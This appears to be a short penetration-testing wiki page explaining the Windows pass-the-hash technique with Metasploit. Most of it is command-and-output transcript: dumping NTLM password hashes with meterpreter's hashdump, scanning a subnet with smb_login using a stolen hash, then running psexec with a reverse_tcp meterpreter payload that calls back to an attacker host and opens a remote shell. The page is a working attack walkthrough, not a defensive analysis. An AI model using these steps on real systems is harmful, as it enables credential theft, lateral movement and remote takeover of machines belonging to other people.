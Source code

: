 <!-- TITLE: Pass the hash -->
<!-- SUBTITLE: A quick summary of Pass the hash -->

After compromising a windows host and getting the password hashes, there are 2 things we can do with it. First, we could try crack the password, but that might take a while depending on the complexity of the password. The second thing we can do is to utilize the pass-the-hash technique to utilize the hash directly. Metasploit supports passing the hash in its smb_login scanner and psexec modules, so we have everything we need to look for and exploit other systems on the network that are using the same hash.

Starting with a meterpreter shell on a compromised host, we use the hashdump command in the priv extension to get the hashes

meterpreter > use priv
Loading extension priv...success.
meterpreter > hashdump
ASPNET:1007:8dcf90484a8a865818b424bbfb7721bd:cc8f39437a0ce1aa89d8807fe0d19ff6:::
FDCC User:1005:921988ba001dc8e1c41a0e2828864838:5f23a05483c0b292fdd922e6b05afa05:::
HelpAssistant:1004:58a8fff5b883a8711ae36084c7644de3:11a7f388fda7f3416d46e6526b346bd2:::
IUSR_XP_FDCC:1006:04b7ff08c649a1d89c1947c7b3a7f246:b92d0fff1430b892d0db3288c9352cab:::
IWAM_XP_FDCC:1011:7e7f6b4ead2513e6019df3d75dea76bd:0a14704580d7a904786b0d1bbbd152dc:::
Renamed_Admin:500:921988ba001dc8e1c41a0e2828864838:5f23a05483c0b292fdd922e6b05afa05:::
Renamed_Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:b656a8c9fc573685ded4bb5b3a4da7dc:::
testuser:1012:e52cac67419a9a22e1c7c53891cb0efa:1ac2b246585f699b8f90605f8c673a7d:::
User:1003:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

Using the smb_login module, we can scan the network with a set of given credentials. However this time we will use the hash in place of the password. It will automatically be recognised as a hash and use the pass-the-hash technique rather than the standard password login.

msf exploit(psexec) > use auxiliary/scanner/smb/smb_login
msf auxiliary(smb_login) > set SMBUser testuser
SMBUser => testuser
msf auxiliary(smb_login) > set SMBPass e52cac67419a9a22e1c7c53891cb0efa:1ac2b246585f699b8f90605f8c673a7d
SMBPass => e52cac67419a9a22e1c7c53891cb0efa:1ac2b246585f699b8f90605f8c673a7d
msf auxiliary(smb_login) > set RHOSTS 192.168.1.140-160
RHOSTS => 192.168.1.140-160
msf auxiliary(smb_login) > run

[+] 192.168.1.142 - SUCCESSFUL LOGIN (Windows 5.1) 'testuser' : 'e52cac67419a9a22e1c7c53891cb0efa:1ac2b246585f699b8f90605f8c673a7d'
[*] Scanned 03 of 21 hosts (014% complete)
[*] Scanned 05 of 21 hosts (023% complete)
[*] Scanned 07 of 21 hosts (033% complete)
[*] Scanned 09 of 21 hosts (042% complete)
[*] Scanned 11 of 21 hosts (052% complete)
[*] Scanned 13 of 21 hosts (061% complete)
[*] Scanned 15 of 21 hosts (071% complete)
[+] 192.168.1.156 - SUCCESSFUL LOGIN (Windows 5.1) 'testuser' : 'e52cac67419a9a22e1c7c53891cb0efa:1ac2b246585f699b8f90605f8c673a7d'
[*] Scanned 17 of 21 hosts (080% complete)
[*] Scanned 19 of 21 hosts (090% complete)
[*] Scanned 21 of 21 hosts (100% complete)
[*] Auxiliary module execution completed

From the list of successful hosts we managed to login to, we can then use the psexec module to get shell. Same as with the smb_login module, we just use the hash in place of the password.

msf auxiliary(smb_login) > use windows/smb/psexec
msf exploit(psexec) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(psexec) > set LHOST 192.168.1.170
LHOST => 192.168.1.170
msf exploit(psexec) > set RHOST 192.168.1.142
RHOST => 192.168.1.142
msf exploit(psexec) > set SMBUser testuser
SMBUser => testuser
msf exploit(psexec) > set SMBPass e52cac67419a9a22e1c7c53891cb0efa:1ac2b246585f699b8f90605f8c673a7d
SMBPass => e52cac67419a9a22e1c7c53891cb0efa:1ac2b246585f699b8f90605f8c673a7d
msf exploit(psexec) > exploit

[*] Started reverse handler on 192.168.1.170:4444
[*] Connecting to the server...
[*] Authenticating as user 'testuser'...
[*] Uploading payload...
[*] Created \TQMmuuNp.exe...
[*] Binding to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.1.142[\svcctl] ...
[*] Bound to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.1.142[\svcctl] ...
[*] Obtaining a service manager handle...
[*] Creating a new service (BGODNowY - "MocMHGObJOWUHSQ")...
[*] Closing service handle...
[*] Opening service...
[*] Starting the service...
[*] Removing the service...
[*] Closing service handle...
[*] Deleting \TQMmuuNp.exe...
[*] Sending stage (748032 bytes) to 192.168.1.142
[*] Meterpreter session 7 opened (192.168.1.170:4444 -> 192.168.1.142:1029)

meterpreter >